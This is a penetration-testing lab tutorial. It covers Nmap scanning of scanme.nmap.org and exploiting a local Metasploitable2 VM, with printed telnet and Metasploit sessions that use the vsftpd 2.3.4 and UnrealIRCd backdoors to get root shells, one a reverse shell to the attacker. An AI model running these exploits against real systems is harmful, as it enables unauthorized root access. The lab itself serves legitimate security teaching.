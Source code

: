 # Recognition and Exploit lab
In this lab, you will learn how to perform a network scanning and how to use tools to
exploit known vulnerabilities.

## Requirements
* Kali Linux
* Virtual box (or any hypervisor)

## Nmap
Nmap (aka network map) is a tool used to discover host and services in a host.

### Explore Nmap

You can use Kali Linux in a virtual machine for the purpose of this lab. Scan the following site: scanme.nmap.org

Note: This site has been developed by Nmap for the purpose of scanning. Never scan any site, system, or network without prior permission from the owner.

#### Task 1 
Nmap comes pre-installed in Kali Linux. Just open a terminal, type “nmap scanme.nmap.org” without the inverted commas. This will initiate a scan of the target and will attempt to determine which ports are open and what services are open on these ports.

![Nmap](./figures/2-1.png)
As we can see from the scan results, there are 4 ports open, and there are different services running on each port. The scan we just performed, however, is a very basic scan and will only scan the top 1000 ports for basic information. In the next step, we will run a more advanced scan.


#### Task 2
In this step, we will be scanning the same target, scanme.nmap.org, but with a more advanced scan. Let’s say we want to determine the versions for the services running on each port, so that we can determine if they are out of date and potentially vulnerable to exploitation. We also want to determine the operating system of the webserver running the target site. We will run the following scan to determine this information:

Oops! You must be root before doing this type of scan. Type “sudo” and  re-enter nmap command with desired parameters. The line in the terminal will be like the following:
```sh
sudo nmap -v -sT -sV -O scanme.nmap.org
```
The results from our scan show us the exact versions of software running on each open port. Note, if there was a firewall protecting this webserver, we may be unable to see this information. We can also determine with relatively high accuracy the version of the operating system running on the web server.

![Nmap options](./figures/2-3.png)
An easier way to perform a full scan on a target is to use the -A flag, which will scan a target using the -sS, -sV, and -O flags.

## Exploiting a real machine

You will lean about metasploit: an exploit database ready to run.

### Setting up a target machine
In this lab, we will use **metasploitable2**: a vulnerable Linux Machine with some 
services on it. Download it [here](https://sourceforge.net/projects/metasploitable/files/latest/download)
and extract it in a folder.

Now you will need to import it in virtual box.

Open virtualbox and create a new virtual machine, choose no iso and set type to `Ubuntu (64-bit)`.
Now, give some resources and go to disk creation and choose `Use an existing disk`.
Add the `.vmdk` file and start the VM.

More details about metasploitable2 can be found [here](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/)


### Exploit the machine

#### Scan the machine
First of all, scan the target machine to find out what services and ports are 
available. You can use nmap command:

```sh 
sudo nmap -v -sT -sV -O <ip-target>
```

#### Exploit FTP
On port 21, Metasploitable2 runs vsftpd, a popular FTP server. This particular version contains a backdoor that was slipped into the source code by an unknown intruder. The backdoor was quickly identified and removed, but not before quite a few people downloaded it. If a username is sent that ends in the sequence :) [ a happy face ], the backdoored version will open a listening shell on port 6200. We can demonstrate this with telnet or use the Metasploit Framework module to automatically exploit it:

```sh 
root@ubuntu:~# telnet 192.168.99.131 21
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
user backdoored:)
331 Please specify the password.
pass invalid
^]
telnet> quit
Connection closed.
                       
root@ubuntu:~# telnet 192.168.99.131 6200
Trying 192.168.99.131...
Connected to 192.168.99.131.
Escape character is '^]'.
id;
uid=0(root) gid=0(root)
```


#### Exploit IRC
On port 6667, Metasploitable2 runs the UnreaIRCD IRC daemon. This version contains a backdoor that went unnoticed for months - triggered by sending the letters "AB" following by a system command to the server on any listening port. Metasploit has a module to exploit this in order to gain an interactive shell, as shown below.

```sh
msfconsole
 
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf  exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131
msf  exploit(unreal_ircd_3281_backdoor) > exploit
 
[*] Started reverse double handler
[*] Connected to 192.168.99.131:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8bMUYsfmGvOLHBxe;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "8bMUYsfmGvOLHBxe\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.99.128:4444 -> 192.168.99.131:60257) at 2012-05-31 21:53:59 -0700

                       
id
uid=0(root) gid=0(root)
```
